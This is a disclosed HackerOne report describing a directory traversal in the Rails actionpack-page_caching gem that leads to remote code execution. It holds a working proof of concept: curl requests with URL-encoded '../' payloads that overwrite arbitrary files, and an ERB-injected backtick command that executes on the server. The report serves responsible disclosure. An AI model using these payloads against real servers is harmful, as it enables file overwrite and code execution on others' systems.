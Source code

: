 # File writing by Directory traversal at actionpack-page_caching and RCE by it

## Report Details
- **Report ID**: 519220
- **URL**: https://hackerone.com/reports/519220
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-03-31T07:25:13.608Z
- **Disclosed**: 2020-07-13T02:45:21.644Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
I found a directory traversal in `actionpack-page_caching`.
Some code may lead to RCE.


https://github.com/rails/actionpack-page_caching/blob/master/lib/action_controller/caching/pages.rb#L143

```ruby
  def cache_file(path, extension)
    if path.empty? || path =~ %r{\A/+\z}
      name = "/index"
    else
      name = URI.parser.unescape(path.chomp("/"))
    end

    if File.extname(name).empty?
      name + (extension || default_extension)
    else
      name
    end
  end

  def cache_path(path, extension = nil)
    File.join(cache_directory, cache_file(path, extension))
  end
```

The problem is that traversal is not considered in cache_path or cache_file.
Since the URL can use `.` or` / `encoded values, the cache will be written in an unexpected place.

### PoC

#### step 1. Prepare server

```log
ruby -v

rails -v

rails new caching_traversal

cd caching_traversal

# add `gem "actionpack-page_caching"` in Gemfile

bundle install

rails generate scaffold book name:string
rails db:migrate
```

#### step 2. Setting cache

Enable caching.

```log
rails dev:cache
```

Add `caches_page`.

```ruby
# app/controllers/books_contorller.rb
class BooksController < ApplicationController
  before_action :set_book, only: [:show, :edit, :update, :destroy]

  caches_page :show
```

#### step 3. Start server

Start the server with "rails s".

Prepare a book with the following name.

```
<% `toouch me` %>
```


Check cache behavior.

```log
❯ curl "http://localhost:3000/books/1"
<!DOCTYPE html>
...
<p>
  <strong>Name:</strong>
  &lt;% `touch me` %&gt;
</p>
...

❯ ls public
404.html  500.html                          apple-touch-icon.png  favicon.ico
422.html  apple-touch-icon-precomposed.png  books                 robots.txt

❯ cat public/books/1.html
<!DOCTYPE html>
...
<p>
  <strong>Name:</strong>
  &lt;% `touch me` %&gt;
</p>
...

```


#### step 4. Attack 

Add an attack code to the pass and check the result.

```log
❯ curl "http://localhost:3000/books/1%2f%2e%2e%2f%2e%2e%2f%2e%2e%2ftest"

# test file is generated
❯ ls
app  config     db       Gemfile.lock  log           public    README.md  test       tmp
bin  config.ru  Gemfile  lib           package.json  Rakefile  storage    test.html  vendor


❯ curl "http://localhost:3000/books/1%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fREADME%2emd"

# If the file exists it will be overwritten
❯ cat README.md
...
<p>
  <strong>Name:</strong>
  &lt;% `touch me` %&gt;
</p>
...
```

#### step 5. RCE

RCE is possible if it is possible to create a cache where the value of `<%` is not escaped, like render for text.

Generate the file `app/views/books/show.text.erb` as follows:


```
name: <%= @ book.name %>
```

Overwriting erb files enables RCE.

```log
# overwrite erb
❯ curl "http://localhost:3000/books/1%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fapp%2fviews%2fbooks%2fshow%2etext%2eerb?format=text"
name: <% `touch me` %>

❯ cat app/views/books/show.text.erb
name: <% `touch me` %>


# executed `touch me`
❯ curl "http://localhost:3000/books/1.txt"
name:

# me file is generated
❯ ls
app  config     db       Gemfile.lock  log  package.json  Rakefile   storage  test.html  vendor
bin  config.ru  Gemfile  lib           me   public        README.md  test     tmp
```

## Impact

The cache is generated on an unintended path. Also, RCE may be possible.

## Attachments
No attachments
